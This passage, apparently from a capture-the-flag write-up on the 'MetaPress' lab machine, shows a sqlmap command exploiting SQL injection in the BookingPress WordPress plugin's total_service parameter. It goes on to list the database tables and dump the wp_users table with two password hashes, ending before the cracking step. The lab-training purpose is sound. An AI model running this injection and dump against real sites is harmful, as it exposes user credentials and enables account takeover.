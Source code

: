 ```
```
Good we know the database name let's dump tables now :

```
sqlmap -r forwriteup.req -p total_service -D blog --tables
```
We got the following output :

```
[27 tables]
+--------------------------------------+
| wp_bookingpress_appointment_bookings |
| wp_bookingpress_categories           |
| wp_bookingpress_customers            |
| wp_bookingpress_customers_meta       |
| wp_bookingpress_customize_settings   |
| wp_bookingpress_debug_payment_log    |
| wp_bookingpress_default_daysoff      |
| wp_bookingpress_default_workhours    |
| wp_bookingpress_entries              |
| wp_bookingpress_form_fields          |
| wp_bookingpress_notifications        |
| wp_bookingpress_payment_logs         |
| wp_bookingpress_services             |
| wp_bookingpress_servicesmeta         |
| wp_bookingpress_settings             |
| wp_commentmeta                       |
| wp_comments                          |
| wp_links                             |
| wp_options                           |
| wp_postmeta                          |
| wp_posts                             |
| wp_term_relationships                |
| wp_term_taxonomy                     |
| wp_termmeta                          |
| wp_terms                             |
| wp_usermeta                          |
| wp_users                             |
+--------------------------------------+
```

The table that interests us is : wp_users.
After dumping it we got 2 entries :

```
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url             | user_pass                          | user_email            | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://metapress.htb | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. | admin@metapress.htb   | admin      | 0           | admin        | admin         | 2022-06-23 17:58:28 | <blank>             |
| 2  | <blank>              | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 | manager@metapress.htb | manager    | 0           | manager      | manager       | 2022-06-23 18:07:55 | <blank>             |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```
It's time to crack them.
